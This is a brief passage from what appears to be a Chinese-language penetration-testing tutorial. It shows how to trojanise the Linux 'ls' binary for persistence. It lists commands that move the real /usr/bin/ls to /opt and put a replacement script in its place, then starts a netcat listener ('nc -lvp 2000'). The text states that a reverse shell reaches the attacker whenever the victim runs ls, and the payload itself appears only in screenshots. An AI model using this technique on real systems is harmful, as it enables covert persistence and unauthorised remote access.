 ```
chmod +x ls
mv /usr/bin/ls /opt
mv ls /usr/bin
cat /usr/bin/ls
```

![image-20220410111756733](../../images/image-20220410111756733.png)

![image-20220410110746072](../../images/image-20220410110746072.png)

攻击机启动监听

```
nc -lvp 2000
```

当受害者执行ls命令时会触发nc命令：

![image-20220410110545883](../../images/image-20220410110545883.png)

攻击机可以看到反弹回来的shell

![image-20220410110513740](../../images/image-20220410110513740.png)
